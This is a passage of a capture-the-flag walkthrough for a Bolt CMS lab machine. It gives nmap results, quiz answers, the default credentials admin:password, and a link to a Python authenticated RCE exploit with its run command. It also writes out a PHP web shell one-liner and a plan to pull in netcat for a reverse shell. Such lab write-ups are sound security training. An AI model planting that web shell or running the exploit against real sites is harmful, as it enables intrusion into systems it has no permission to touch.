 ```
TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   32.81 ms 10.8.0.1
2   32.98 ms 10.10.149.194

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.30 seconds
```

How many ports are open?

`2`

What ports are open? Comma separated, lowest first: **,**

`22,80`

## Task 3 Webserver

Examine webserver. Identify what web-app is running.

What CMS is the website built on?

`© 2020 • This website is Built with Bolt. `

`Bolt`

## Task 4 Exploit

Download [exploit](https://github.com/r3m0t3nu11/Boltcms-Auth-rce-py) for this app. The exploit works, but might not fire every time. If you first don't succeed...

In the exploit from 2020-04-05, what language is used to write the exploit?

`Python`

As the exploit is authenticated, you will also need a username and password. Knowing the URI for the login-portal is also critical for the exploit to work. Find the login-portal and try login in.

[User Manual / Login](https://docs.bolt.cm/3.6/manual/login)

[http://10.10.149.194/bolt/login](http://10.10.149.194/bolt/login)

`admin:password`

## Task 5 Reverse shell

`python3 exploit.py http://ip username password`

![](https://i.imgur.com/aVvruKT.png)

We can create a simple php-shell on the server, like this: `echo '<?php system($_GET["c"]);?>'>c.php` This we can use to upload a netcat reverse shell on the system and get a reverse shell, as there is no netcat on the box.
